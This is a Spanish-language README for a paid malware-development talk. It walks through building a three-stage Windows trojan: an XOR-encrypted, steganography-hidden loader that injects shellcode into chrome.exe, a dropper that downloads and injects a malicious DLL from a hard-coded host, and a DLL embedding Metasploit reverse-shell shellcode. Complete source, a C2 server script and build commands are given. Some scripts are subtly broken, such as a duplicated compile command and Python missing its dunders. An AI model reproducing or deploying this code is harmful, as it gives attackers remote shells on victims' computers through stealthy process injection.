

## PONENCIA: Desarrollo de malware
by @n3xu5_666

El malware de este curso es una PoC cuyo objetivo es realizar una inyección de shellcode en un proceso remoto arbitrario y obtener una reverse shell.

 - Arquitectura del malware


La ponencia muestra su desarrollo desde Distribucion Linux Debian, sin embargo esto tambien es viable desde el Sistema Operativo Android apoyandonos con el [emulador de terminal Termux](https://github.com/termux)

- Dependencias
```bash
apt update && yes|apt upgrade
yes|apt install curl mingw-w64 python python-pip python-pillow python-numpy
```
	NOTA: en distribuciones Linux pillow y numpy se instala desde PIP.

METASPLOIT-FRAMEWORK con [Termux-packages](https://github.com/ivam3/termux-packages) de @Ivam3 :
```bash
mkdir -p $PREFIX/etc/apt/sources.list.d
curl https://raw.githubusercontent.com/ivam3/termux-packages/gh-pages/ivam3-termux-packages.list -o $PREFIX/etc/apt/sources.list.d/ivam3-termux-packages.list
apt update && yes|apt upgrade
yes|apt install metasploit-framework
```

- Creacion de entorno de trabajo
```bash
mkdir -p PoC-maldev && cd $_ # Crea e ingresa al directorio PoC-maldev
python -m pip env venv  # Crea un entorno virtual para python
```

Para conseguir este objetivo, el malware está dividido en tres stages o etapas :

1. Shellcode Injector (troyan.exe): Esta etapa del malware se encarga de inyectar en un proceso arbitrario (chrome.exe) un shellcode cifrado (dllinyectorencrypted.bin) con XOR (xor.py) y embebido en una imagen (pornhublsb.png) mediante la técnica de esteganografía LSB (lsb.py). Esto lo consigue enviando el PNG a un servidor remoto en la nube que se va a encargar de extraer el shellcode payload del PNG y enviarlo de regreso cifrado hacia la instancia de esta primera etapa en la máquina víctima para después descifrarlo en tiempo de ejecución e finalmente inyectarlo.

    Apoyate con el video de la ponencia en su [Primera Parte](https://t.me/Ivam3_Bot) al adquirir tu [membresia de la comunidad](https://www.youtube.com/ivam3bycinderella/join)

- Descarga de imagen .png
```bash
curl https://www.iconfinder.com/icons/7150904/download/ico/4096 -o venv/pornhub.png
```

- Payload|Shellcode:
```bash
echo """use payload/windows/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 0000
generate -f raw -o venv/shellcode.bin
""" > venv/msfshellcode.rc 

msfconsole -q -r venv/msfshellcode.rc
```
	Sustituye 0.0.0.0 por tu Protocolo de Internet Local (IPL) y el '0000' por el puerto de tu eleccion.

- Activa el entorno virtual de Python
```bash
source venv/bin/activate
```

- Instalacion de modulos de Python requeridos
```bash
python3 -m pip --no-cache-dir install wave donut-shellcode
```

- Script PoC-maldev/venv/xor.py
```python
import sys

def xor(inputData, encKey):

	encKey = str(encKey)
	l = len(encKey)
	outStr = b""

	for i in range(len(inputData)):
		cde = inputData[i]
		ck = encKey[i % len(encKey)]
		outStr += chr(cde ^ ord(ck)).encode('latin-1')

	return outStr

if __name__ == "__main__":

	ENCRYPT_KEY = "wubbalubbadubdub"
	try:
		plainText = open(sys.argv[1], "rb").read()
		cipherText = xor(plainText, ENCRYPT_KEY)
		open("encrypted.bin", "wb").write(cipherText)
	except:
		#print f"Usage: python3 {sys.argv[0]} <payload file>"
		sys.exit(1)
```

- Script PoC-maldev/venv/lsb.py
```python
from PIL import Image
import numpy as np
import sys

def printHelp():

	print(f"""
Usage:


Hide message:

python3 {sys.argv[0]} -hide <image path> <message file> <output image path>


Unhide message:

python3 {sys.argv[0]} -extract <image path>
			""")

def hideBits(orig, msgFile, dest):

	img = Image.open(orig,'r')
	width, height = img.size
	array = np.array(list(img.getdata()))
	if img.mode == 'RGB':
		n = 3
	elif img.mode == 'RGBA':
		n = 4
	total_pixels = array.size//n
	message = open(msgFile, "rb")
	message = message.read()
	message += b"$end_of_message$"
	b_message = ''.join([format(i, "08b") for i in message])
	req_pixels = len(b_message)
	if req_pixels > total_pixels:
		print("ERROR: Need larger file size")
	else:
		index = 0
		for p in range(total_pixels):
			for q in range(0,3):
				if index < req_pixels:
					array[p][q] = int(bin(array[p][q])[2:9] + b_message[index],2)
					index += 1
		array = array.reshape(height, width, n)
		enc_img = Image.fromarray(array.astype('uint8'), img.mode)
		enc_img.save(dest)
		print("\nHidden message successfully!\n")

def extract(path):

	img = Image.open(path, 'r')
	array = np.array(list(img.getdata()))
	if img.mode == 'RGB':
		n = 3
	elif img.mode == 'RGBA':
		n = 4
	total_pixels = array.size//n
	hidden_bits = ""
	for p in range(total_pixels):
		for q in range(0,3):
			hidden_bits += (bin(array[p][q])[2:][-1])
	hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
	message = b""
	for i in range(len(hidden_bits)):
		if message[-16:] == b"$end_of_message$":
			break
		else:
			message += chr(int(hidden_bits[i],2)).encode('latin-1')
	dstFile = open("message.bin", "wb")
	if b"$end_of_message" in message:
		dstFile.write(message[:-16])
		print("\nUnhidden message successfully!\n")
	else:
		print("\nNo Hidden Message Found\n")

if __name__ == "__main__":

	if len(sys.argv) != 5 and len(sys.argv) != 3:
		printHelp()
		sys.exit(1)
	if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
		printHelp()
		sys.exit(1)
	if sys.argv[1] == "-hide":
		if len(sys.argv) != 5:
			printHelp()
			sys.exit(1)
		hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
	else:
		if len(sys.argv) != 3:
			printHelp()
			sys.exit(1)
		extract(sys.argv[2])
```

- Concatenacion de shellcode de metasploit en el archivo imagen .png
```bash
python3 lsb.py -hide pornhub.png encrypted.bin pornhublsb.png
```

- Desactivamos el entorno virtual de Python
```bash
deactivate
```

- Script PoC-maldev/resources.h
```cpp
#define MY_ICON 200
```

- Script PoC-maldev/resources.rc
```cpp
#include "resources.h"

MY_ICON RCDATA pornhublsb.png
```

- Script PoC-maldev/trojan.cpp
```cpp
// C++ headers
#include <winsock2.h> // Socket header
#include <windows.h> // Win API header
#include <ws2tcpip.h> // TCP/IP header
#include <tlhelp32.h> // Tool Help Library header

// C headers
#include <stdio.h> // Standard Input/Output header
#include <stdlib.h> // Standard library header
#include <string.h> // Standard string header

// Defined header
#include "resources.h"

#pragma comment(lib, "user32.lib")
#pragma comment(lib, "Advapi32.lib")
#pragma comment(lib, "Shell32.lib")
#pragma comment(lib, "Ws2_32.lib")

#define DEFAULT_BUFLEN 1024

typedef SSIZE_T ssize_t;

// https://cplusplus.com/forum/general/266899/
void SendBytes(char * bytes, size_t data_length) {

  WSADATA wsaver;
  WSAStartup(MAKEWORD(2, 2), &wsaver);
  SOCKET tcpsock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_addr.s_addr = inet_addr("192.168.100.18");
	addr.sin_port = htons(4444);

	char response[DEFAULT_BUFLEN] = "";
	ssize_t bytes_sent;
	size_t total_bytes_sent;

	if (connect(tcpsock, (SOCKADDR *) &addr, sizeof(addr)) == SOCKET_ERROR) {
		closesocket(tcpsock);
		WSACleanup();
		exit(0);
	}
	else {
		while (true) {
			if (data_length >= DEFAULT_BUFLEN) {
				bytes_sent = send(tcpsock, bytes, DEFAULT_BUFLEN, 0);
			}
			else {
				bytes_sent = send(tcpsock, bytes, data_length, 0);
				break;
			}

			recv(tcpsock, response, DEFAULT_BUFLEN, 0);

			if (strcmp(response, "OK") == 0) {
				//printf("\nResponse: %s\n", response);
				bytes += bytes_sent;
				data_length -= bytes_sent;
				total_bytes_sent += bytes_sent;
				//printf("Bytes left = %d , Total bytes sent = %d\n", data_length, total_bytes_sent);
			}
		}
		char END[] = "";
		send(tcpsock, END, strlen(END), 0);
		closesocket(tcpsock);
		WSACleanup();
	}
}

void RecvBytes(char * bytes, size_t data_length) {

	WSADATA wsaver;
	WSAStartup(MAKEWORD(2, 2), &wsaver);
	SOCKET tcpsock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_addr.s_addr = inet_addr("0.0.0.0");
	addr.sin_port = htons(0000);

	char response[DEFAULT_BUFLEN] = "";
	ssize_t bytes_recived;
	size_t total_bytes_recieved;

	//printf("\n%-20s : 0x%-016p\n", "Response addr", (void *) response);

	if (connect(tcpsock, (SOCKADDR *) &addr, sizeof(addr)) == SOCKET_ERROR) {
		closesocket(tcpsock);
		WSACleanup();
		exit(0);
	}
	else {
		while (true) {
			if (data_length >= DEFAULT_BUFLEN) {
				bytes_recived = recv(tcpsock, response, DEFAULT_BUFLEN, 0);
				memcpy(bytes, response, DEFAULT_BUFLEN);
				memset(response, 0, DEFAULT_BUFLEN);
			}
			else {
				bytes_recived = recv(tcpsock, response, data_length, 0);
				memcpy(bytes, response, data_length);
				memset(response, 0, data_length);
				break;
			}

			send(tcpsock, "OK", 2, 0);

			if (bytes_recived != 0) {
				//printf("\nResponse: %s\n", response);
				bytes += bytes_recived;
				data_length -= bytes_recived;
				total_bytes_recieved += bytes_recived;
				//printf("\nBytes left = %d , Total bytes recieved = %d\n", data_length, total_bytes_recieved);
			}
		}
		closesocket(tcpsock);
		WSACleanup();

		/*
		recv(tcpsock, response, DEFAULT_BUFLEN, 0);
		strncpy(bytes, response, data_length);
		closesocket(tcpsock);
		WSACleanup();
		*/

	}
}

void XOR(char * encrypted_data, size_t data_length, char * key, size_t key_length) {

	int key_index = 0;
	for (int i = 0; i < data_length; i++) {
		if (key_index == key_length - 1) key_index = 0;
		encrypted_data[i] = encrypted_data[i] ^ key[key_index];
		key_index++;
	}
}

int SearchForProcess(const char *processName) {

	HANDLE hSnapshotOfProcesses;
	PROCESSENTRY32 processStruct;
	int pid = 0;

	hSnapshotOfProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hSnapshotOfProcesses) return 0;

	processStruct.dwSize = sizeof(PROCESSENTRY32);

	if (!Process32First(hSnapshotOfProcesses, &processStruct)) {
		CloseHandle(hSnapshotOfProcesses);
		return 0;
	}

	while (Process32Next(hSnapshotOfProcesses, &processStruct)) {
		if (lstrcmpiA(processName, processStruct.szExeFile) == 0) {
			pid = processStruct.th32ProcessID;
			break;
		}
	}

	CloseHandle(hSnapshotOfProcesses);

	return pid;
}

int ShellcodeInject(HANDLE hProcess, unsigned char * shellcodePayload, unsigned int lengthOfShellcodePayload) {

	LPVOID pRemoteProcAllocMem = NULL;
	HANDLE hThread = NULL;
	pRemoteProcAllocMem = VirtualAllocEx(hProcess, NULL, lengthOfShellcodePayload, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProcess, pRemoteProcAllocMem, (PVOID)shellcodePayload, (SIZE_T)lengthOfShellcodePayload, (SIZE_T *)NULL);

	hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE) pRemoteProcAllocMem, NULL, 0, NULL);

	if (hThread != NULL) {
		WaitForSingleObject(hThread, 500);
		CloseHandle(hThread);
		return 0;
	}
	return -1;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
//int main() {

	BOOL retval;
	HANDLE threadHandle;
	DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;

	char response[DEFAULT_BUFLEN] = "";
	unsigned char * bytes;
	unsigned int lengthOfBytes;
	void * shellcodePayload;
	unsigned int lengthOfShellcodePayload = 119038;

	shellcodePayload = malloc(lengthOfShellcodePayload);
	memset(shellcodePayload, 0, lengthOfShellcodePayload);

	char encryption_key[] = "wubbalubbadubdub";
	int pid = 0;

	HANDLE hProcess;

	// Retrieve shellcode payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(MY_ICON), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	bytes = (unsigned char *) LockResource(resHandle);
	lengthOfBytes = SizeofResource(NULL, res);

	//printf("\n%-20s : 0x%-016p\n", "Bytes addr", (void *) bytes);
	//printf("\n%-20s : 0x%-016p\n", "Shellcode payload addr", (void *) shellcodePayload);

	// Send ICO bytes and recive encrypted shellcode bytes
	SendBytes((char *) bytes, lengthOfBytes);
	RecvBytes((char *) shellcodePayload, lengthOfShellcodePayload);
	//printf("\nPress Enter to Decrypt Shellcode Payload\n");
	//getchar();

	// Decrypt the XOR payload to original shellcode
	XOR((char *) shellcodePayload, lengthOfShellcodePayload, encryption_key, sizeof(encryption_key));

	// Injection
	pid = SearchForProcess("chrome.exe");
	if (pid) {
		//printf("chrome.exe PID = %d\n", pid);

		// try to open target process
		hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
		//printf("\nhProcess = %x\n", hProcess);
		//printf("\nPress Enter to Inject the Shellcode Payload\n");
		//getchar();

		if (hProcess != NULL) {
			ShellcodeInject(hProcess, (unsigned char *) shellcodePayload, lengthOfShellcodePayload);
			CloseHandle(hProcess);
		}
	}
	return 0;
}
```

- Script PoC-maldev/compile.sh
```bash
#!/bin/bash

x86_64-w64-mingw32-windres -o resources.o resources.rc
x86_64-w64-mingw32-g++ -o trojan trojan.cpp -lwsock32 -lws2_32 -Wl,--subsystem,windows resources.o
```

- Compilacion
    Se requieren en el mismo directorio los archivos :

      • trojan.cpp
      • resources.rc
      • resources.h
      • imageninfectada.png
      • compile.sh
```bash
bash compile.sh
```

Dudas? ... Unete a la [charla](https://t.me/Ivam3by_Cinderella/22) en nuestro [Chat de Telegram](https://t.me/Ivam3by_Cinderella)


2. Dropper y DLL Injector (dllinjector.exe): Esta etapa del malware descarga un DLL malicioso (evildll.dll) desde el servidor en la nube, lo carga y ejecuta en el proceso inyectado (chrome.exe) haciendo uso de LoadLibraryA. Esta etapa del malware se usa en formato de shellcode payload (dllinjector.bin) y para transformarlo a este formato nos apoyamos de la herramienta Donut.

    Apoyate con el video de la ponencia en su [Segunda Parte](https://t.me/Ivam3_Bot) al adquirir tu [Membresia de la comunidad](https://www.youtube.com/ivam3bycinderella/join)

- Script PoC-maldev/server.py
```python3
import socket
import sys
import numpy as np
from PIL import Image

class Server:
  def init(self, ip, port):
    self.server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    self.server.bind((ip, port))
    self.server.listen(1)
    self.server.settimeout(20)

  def run(self):
    while True:
      try:
        client, address = self.server.accept()
        print(f"\nIncoming connection from {address[0]}:{address[1]}\n")

        # Recive image bytes and extract encrypted shellcode
        print("Receiving icon bytes...")
        with open("file.bin", "wb") as file:
          while True:
            data = client.recv(1024)
            #print(data)
            if data == b"":
              client.close()
              break
            client.send("OK".encode('latin-1'))
            file.write(data)
          file.close()
        self.extractBits("file.bin")

        client, address = self.server.accept()
        print(f"\nIncoming connection from {address[0]}:{address[1]}\n")

        # Send extracted encrypted shellcode bytes
        print("Sending encrypted shellcode...\n")
        with open("encrypted.bin", "rb") as file:
          while True:
            byte_content = file.read(1024)
            if not byte_content:
              client.close()
              break
            client.send(byte_content)
            data = client.recv(1024)
            #print(f"Bytes sent: {byte_content}")
            #print(f"Bytes recieved: {data}")
            if data == "OK":
              next
        print("Encrypted shellcode sent...\n")


        #print("Sending encrypted shellcode...\n")
        #with open("encrypted.bin", "rb") as file:
        #  byte_content = file.read(1024)
        #  client.send(byte_content)
        #print("Encrypted shellcode sent...\n")
        #client.close()

      except KeyboardInterrupt:
        print("")
        sys.exit()
      except Exception as e:
        print(f"Error: {e}")
        pass

  def extractBits(self, path):
    img = Image.open(path, 'r')
    array = np.array(list(img.getdata()))
    if img.mode == 'RGB':
      n = 3
    elif img.mode == 'RGBA':
      n = 4
    total_pixels = array.size//n
    hidden_bits = ""
    for p in range(total_pixels):
      for q in range(0,3):
        hidden_bits += (bin(array[p][q])[2:][-1])
    hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
    message = b""
    for i in range(len(hidden_bits)):
      if message[-16:] == b"$end_of_message$":
        break
      else:
        message += chr(int(hidden_bits[i],2)).encode('latin-1')
    dstFile = open("encrypted.bin", "wb")
    if b"$end_of_message" in message:
      dstFile.write(message[:-16])
      dstFile.close()
      print("\nUnhidden message successfully!\n")
    else:
      print("\nNo Hidden Message Found\n")

if name == "main":
  server = Server("192.168.100.18", 4444)
  server.run()
```

- Script PoC-maldev/dllinjector.cpp
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <urlmon.h>
#include <wininet.h>

#pragma comment(lib, "Urlmon.lib")
#pragma comment(lib, "Wininet.lib")

int SearchForProcess(const char *processName) {

	HANDLE hSnapshotOfProcesses;
	PROCESSENTRY32 processStruct;
	int pid = 0;

	hSnapshotOfProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hSnapshotOfProcesses) return 0;

	processStruct.dwSize = sizeof(PROCESSENTRY32); 

	if (!Process32First(hSnapshotOfProcesses, &processStruct)) {
		CloseHandle(hSnapshotOfProcesses);
		return 0;
	}

	while (Process32Next(hSnapshotOfProcesses, &processStruct)) {
		if (lstrcmpiA(processName, processStruct.szExeFile) == 0) {
			pid = processStruct.th32ProcessID;
			break;
		}
	}

	CloseHandle(hSnapshotOfProcesses);

	return pid;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
//int main(int argc, char *argv[]) {
	
	HANDLE hProcess;
	PVOID pRemoteProcAllocMem;
	PTHREAD_START_ROUTINE pLoadLibrary = NULL;
	//char pathToDLL[] = "C:\\Users\\sciar\\AppData\\Local\\Temp\\evildll.dll";
	//char pathToDLL[] = "C:\\Program Files\\Google\\Chrome\\Application\\108.0.5359.125\\evildll.dll";
	//char pathToDLL[] = "C:\\Users\\sciar\\Desktop\\CrashCourseMaldev\\Part2\\evildll.dll";
	//char pathToDLL[] = "C:\\mspaintDLL.dll";
	char pathToDLL[MAX_PATH] = "";
	char url[] = "http://192.168.100.18:80/evildll.dll";
	char processToInject[] = "chrome.exe";
	int pid = 0;

	GetTempPath(MAX_PATH, pathToDLL);
	strcat(pathToDLL, "\\evildll.dll");

	URLDownloadToFile(NULL, (char *) url, (char *) pathToDLL, 0, NULL);
	DeleteUrlCacheEntry((char *) url);
	
	pid = SearchForProcess(processToInject);
	if ( pid == 0) {
		//printf("Process To Inject NOT FOUND! Exiting.\n");
		return -1;
	}

	//printf("Process To Inject PID: [ %d ]\nInjecting...", pid);

	pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));

	if (hProcess != NULL) {
		pRemoteProcAllocMem = VirtualAllocEx(hProcess, NULL, sizeof(pathToDLL), MEM_COMMIT, PAGE_READWRITE);	
	
		WriteProcessMemory(hProcess, pRemoteProcAllocMem, (LPVOID) pathToDLL, sizeof(pathToDLL), NULL);

		CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pRemoteProcAllocMem, 0, NULL);
		//printf("done!\nallocated Memory addr = %p\n", pRemoteProcAllocMem);

		CloseHandle(hProcess); 
	}
	else {
		//printf("OpenProcess failed! Exiting.\n");
		return -2;
	}
}
```

- Script PoC-maldev/evildll.cpp
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Msfconsole reverse shell shellcode generetad with: LHOST=192.168.100.18, LPORT=443, generate -f c -o shellcode.bin
unsigned char shellcodePayload[460] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x49,
	0xBE, 0x77, 0x73, 0x32, 0x5F, 0x33, 0x32, 0x00, 0x00, 0x41, 0x56, 0x49,
	0x89, 0xE6, 0x48, 0x81, 0xEC, 0xA0, 0x01, 0x00, 0x00, 0x49, 0x89, 0xE5,
	0x49, 0xBC, 0x02, 0x00, 0x01, 0xBB, 0xC0, 0xA8, 0x64, 0x12, 0x41, 0x54,
	0x49, 0x89, 0xE4, 0x4C, 0x89, 0xF1, 0x41, 0xBA, 0x4C, 0x77, 0x26, 0x07,
	0xFF, 0xD5, 0x4C, 0x89, 0xEA, 0x68, 0x01, 0x01, 0x00, 0x00, 0x59, 0x41,
	0xBA, 0x29, 0x80, 0x6B, 0x00, 0xFF, 0xD5, 0x50, 0x50, 0x4D, 0x31, 0xC9,
	0x4D, 0x31, 0xC0, 0x48, 0xFF, 0xC0, 0x48, 0x89, 0xC2, 0x48, 0xFF, 0xC0,
	0x48, 0x89, 0xC1, 0x41, 0xBA, 0xEA, 0x0F, 0xDF, 0xE0, 0xFF, 0xD5, 0x48,
	0x89, 0xC7, 0x6A, 0x10, 0x41, 0x58, 0x4C, 0x89, 0xE2, 0x48, 0x89, 0xF9,
	0x41, 0xBA, 0x99, 0xA5, 0x74, 0x61, 0xFF, 0xD5, 0x48, 0x81, 0xC4, 0x40,
	0x02, 0x00, 0x00, 0x49, 0xB8, 0x63, 0x6D, 0x64, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x41, 0x50, 0x41, 0x50, 0x48, 0x89, 0xE2, 0x57, 0x57, 0x57, 0x4D,
	0x31, 0xC0, 0x6A, 0x0D, 0x59, 0x41, 0x50, 0xE2, 0xFC, 0x66, 0xC7, 0x44,
	0x24, 0x54, 0x01, 0x01, 0x48, 0x8D, 0x44, 0x24, 0x18, 0xC6, 0x00, 0x68,
	0x48, 0x89, 0xE6, 0x56, 0x50, 0x41, 0x50, 0x41, 0x50, 0x41, 0x50, 0x49,
	0xFF, 0xC0, 0x41, 0x50, 0x49, 0xFF, 0xC8, 0x4D, 0x89, 0xC1, 0x4C, 0x89,
	0xC1, 0x41, 0xBA, 0x79, 0xCC, 0x3F, 0x86, 0xFF, 0xD5, 0x48, 0x31, 0xD2,
	0x48, 0xFF, 0xCA, 0x8B, 0x0E, 0x41, 0xBA, 0x08, 0x87, 0x1D, 0x60, 0xFF,
	0xD5, 0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D,
	0xFF, 0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB,
	0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41,
	0x89, 0xDA, 0xFF, 0xD5
};

unsigned int lengthOfshellcodePayload = sizeof(shellcodePayload);

extern __declspec(dllexport) int Go(void);
int RunShellcode(void) {
	
	void * alloc_mem;
	BOOL retval;
	HANDLE threadHandle;
	DWORD oldprotect = 0;

	alloc_mem = VirtualAlloc(0, lengthOfshellcodePayload, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	RtlMoveMemory(alloc_mem, shellcodePayload, lengthOfshellcodePayload);
	
	retval = VirtualProtect(alloc_mem, lengthOfshellcodePayload, PAGE_EXECUTE_READ, &oldprotect);

	if ( retval != 0 ) {
		threadHandle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) alloc_mem, 0, 0, 0);
		WaitForSingleObject(threadHandle, 0);
	}
	return 0;
}

BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD reasonForCall, LPVOID lpReserved ) {

	switch ( reasonForCall ) {
	case DLL_PROCESS_ATTACH:
		RunShellcode();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

Listo!! Hora de compilar nuestro dll. En la ponencia el proceso fue realizado desde un SO Windows en donde se requiere los Native Tools instalados (x64 native tools command prompt for VS 2022) junto con los siguientes scripts :

- Script PoC-maldev/compiledll.bat : es el ejecutable compilador para Windows 
```bat
@ECHO OFF

cl.exe /O2 /D_USRDLL /D_WINDLL evildll.cpp evildll.def /MT /link /DLL /OUT:evildll.dll
```

- Script PoC-maldev/compiledllinjector.bat
```bat
@ECHO OFF

cl.exe /O2 /D_USRDLL /D_WINDLL evildll.cpp evildll.def /MT /link /DLL /OUT:evildll.dll
```
    Esto creara los archivos dllinjector.exe and evil.dll

- Proceso de Compilacion con [donut](https://github.com/TheWover/donut)
```bash
donut -e 1 -x 1 -t evil.dll loader.bin
```

Dudas? ... Unete a la [charla](https://t.me/Ivam3by_Cinderella/22) en nuestro [Chat de Telegram](https://t.me/Ivam3by_Cinderella)


3. DLL Malicioso (evildll.dll): Esta etapa del malware es un DLL que se va a encargar de ejecutar un shellcode payload malicioso en la memoria del proceso inyectado, justo cuando es cargado en la memoria de ejecución, que nos va a dar una reverse shell, conectándose directamente al servidor C2 en la nube. Para conseguir esto realiza el proceso estándar de un shellcode loader.

    Asiste a la [Tercera Parte](https://t.me/Ivam3byCinderella?livestream) de la ponencia en el [canal de Telegram](https://t.me/Ivam3byCinderella) de la comunidad.
